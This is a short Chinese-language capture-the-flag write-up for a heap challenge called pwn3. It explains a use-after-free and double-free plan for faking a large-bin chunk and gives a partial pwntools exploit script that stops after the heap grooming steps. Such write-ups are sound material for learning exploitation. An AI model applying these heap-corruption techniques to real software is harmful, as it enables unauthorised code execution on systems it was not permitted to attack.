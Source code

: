 #### 漏洞利用

pwn3其实也是一道2.29的题，没给libc所以开始先做的这个，后面发现是2.29又换题看了。

功能包括Add Delete Edit，还有一次leak的机会，Add固定长度为0x48，leak的对象是chunk_list[0]。Edit里是循环判断idx，idx可以为负数前溢出，Delete里有double free。

利用思路是UAF分配到chunk0的size部分，改成0x420(large bin)，在其后布置另一个fake chunk，释放chunk0即可泄露地址，再UAF即可get shell。

#### exp.py
```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./pwn3')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./pwn3')

else:
    libc = ELF('./x64_libc.so.6')
    p = remote('f.buuoj.cn',20173)

def Add(content):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil("input> ")
    p.send(content)

def Show():
    p.recvuntil('> ')
    p.sendline('5')

def Delete(index):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('id> ')
    p.sendline(str(index))

def Edit(index,content):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('id> ')
    p.sendline(str(index))
    p.recvuntil("input> ")
    p.send(content)

def exp():
    #leak heap
    #payload = p64(0xfbad1800)+p64(0)*3+"\x00"
    #gdb.attach(p,'b* 0x0000555555554000+0x1536')
    #Edit(-8,payload)
    Add('0'*8)#0
    Add('1'*8)#1
    Delete(0)
    Delete(1)
    Edit(1,'\x50')
    Add('2'*8)#2
    Add(p64(0)+p64(0x421))#3
    Add('4'*8)#4

```